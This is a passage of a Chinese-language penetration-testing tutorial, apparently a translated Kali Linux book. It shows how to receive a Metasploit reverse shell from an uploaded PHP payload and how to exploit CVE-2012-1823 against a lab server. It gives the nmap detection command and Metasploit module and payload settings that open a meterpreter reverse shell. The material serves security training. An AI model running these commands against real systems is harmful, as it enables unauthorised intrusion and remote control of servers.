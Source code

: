 1.  在 Metasploit 中启用`multi/handler`模块，设置反向 TCP 有效载荷，并使用以下命令执行利用：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/2bb249a6-8aa5-434d-8229-a5734cd83289.png)

请确保检查 Kali Linux 机器的 IP 地址，并相应地调整`LHOST`参数。

1.  在服务器上执行了`img.php`有效载荷并在 Metasploit 上启用了`multi/handler`后，我们能够在攻击者机器上接收到一个反向 shell，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/ed29642c-7be8-44cb-b0ab-08887b8d84f5.png)

使用`meterpreter` shell，您现在可以在受损系统上执行进一步的操作。

在接下来的部分，我们将演示如何利用代码执行漏洞。

# 利用代码执行漏洞

当设备容易受到代码执行攻击时，攻击者或渗透测试人员被允许在目标服务器上远程执行代码。此外，渗透测试人员将能够检索存储在目标上的源代码。

为了完成这个练习，我们将使用以下拓扑结构：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/739a76ec-d61e-429a-82ac-79a80fadd0aa.png)

要开始执行代码执行利用，请按照以下步骤进行：

1.  我们将尝试发现目标是否容易受到**CVE-2012-1823**的攻击。要发现目标是否容易受到攻击，请使用以下命令与`nmap`：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回结果，表明目标存在漏洞。然而，这不应该阻止您确定目标是否容易受到攻击。

1.  接下来，在**Metasploit**中，使用`search`命令查找一个适合的利用模块，以帮助我们利用目标上的漏洞：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/89a269bf-78d5-495a-93e8-7db7dd151d1e.png)

1.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

1.  此外，以下命令允许您使用适当的有效载荷在利用后建立远程 shell 并设置您的本地主机 IP 地址：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```

1.  使用`exploit`命令对目标发动攻击。以下截图显示了攻击成功的目标：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/f85fcc3c-3a78-4c56-892d-c4d03baa8725.png)

有效载荷已发送到受害者，并且我们有了一个反向 shell。完成了本节后，您现在可以发现并在目标服务器上执行代码执行。

在下一节中，我们将演示如何利用 LFI 漏洞。

# 利用 LFI 漏洞
